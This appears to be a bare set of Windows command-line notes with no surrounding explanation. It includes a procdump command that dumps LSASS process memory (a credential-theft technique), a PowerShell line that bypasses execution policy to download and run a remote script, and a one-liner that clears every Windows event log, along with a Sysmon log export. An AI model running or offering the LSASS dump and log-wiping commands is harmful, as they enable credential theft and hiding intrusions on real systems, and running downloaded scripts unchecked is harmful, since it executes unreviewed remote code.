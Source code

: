 Live sys internals
'''
net use s: \\live.sysinternals.com\tools
s:\procdump64.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
'''

Choco install
Set-ExecutionPolicy Bypass -Scope Process -Force; iex ((New-Object System.Net.WebClient).DownloadString('https://chocolatey.org/install.ps1'))


#Clear all logs
wevtutil el | Foreach-Object {wevtutil cl “$_”};
ping localhost;

#Export sysmon log
WEVTUtil query-events "Microsoft-Windows-Sysmon/Operational" /format:xml /e:sysmonview > $env:HOMEPATH\Downloads\eventlog.xml


